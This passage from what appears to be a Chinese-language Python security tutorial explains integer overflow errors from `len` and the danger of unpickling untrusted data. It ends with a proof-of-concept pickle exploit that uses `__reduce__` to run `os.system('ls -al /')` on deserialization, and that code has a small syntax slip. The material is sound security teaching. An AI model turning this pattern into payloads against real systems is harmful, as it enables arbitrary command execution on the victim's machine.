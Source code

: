 在 Python 3 中执行相同的代码如下：

```py
**$ python3 len_overflow.py** 
**Not OK: 'class A(object)' with 'return 100 ** 100' - len raise Error: OverflowError("cannot fit 'int' into an index-sized integer",)**
**Not OK: 'class B' with 'return 100 ** 100' - len raise Error: OverflowError("cannot fit 'int' into an index-sized integer",)**

```

在前面的代码中的问题在于`len`返回`integer`对象，在这种情况下，实际值太大而无法适应`int`，因此 Python 引发了溢出错误。然而，在 Python 2 中，对于未从`object`派生的类的情况，执行的代码略有不同，它预期一个`int`对象，但得到了`long`并抛出了`TypeError`。在 Python 3 中，这两个示例都返回溢出错误。

这样的整数溢出错误是否存在安全问题？

在实际情况中，这取决于应用程序代码和所使用的依赖模块代码，以及它们如何处理或捕获/掩盖溢出错误。

然而，由于 Python 是用 C 编写的，任何在底层 C 代码中没有正确处理的溢出错误都可能导致缓冲区溢出异常，攻击者可以向溢出缓冲区写入并劫持底层进程/应用程序。

通常，如果一个模块或数据结构能够处理溢出错误并引发异常以阻止进一步的代码执行，那么代码利用的可能性就会减少。

## 对象序列化

对于 Python 开发人员来说，使用`pickle`模块及其 C 实现的`cPickle`来对 Python 中的对象进行序列化是非常常见的。然而，这两个模块都允许未经检查的代码执行，因为它们不对被序列化的对象进行任何类型检查或规则的强制，以验证它是一个良性的 Python 对象还是一个可能利用系统的潜在命令。

### 注意

注意：在 Python3 中，`cPickle`和`pickle`模块合并为一个单独的`pickle`模块。

这是通过 shell 利用的示例，它列出了 Linux/POSIX 系统中根文件夹（/）的内容：

```py
# test_serialize.py
import os
import pickle

class ShellExploit(object):
    """ A shell exploit class """

    def __reduce__(self):
        # this will list contents of root / folder.
        return (os.system, ('ls -al /',)

def serialize():
    shellcode = pickle.dumps(ShellExploit())
    return shellcode

def deserialize(exploit_code):
    pickle.loads(exploit_code)

if __name__ == '__main__':
    shellcode = serialize()
    deserialize(shellcode)
```
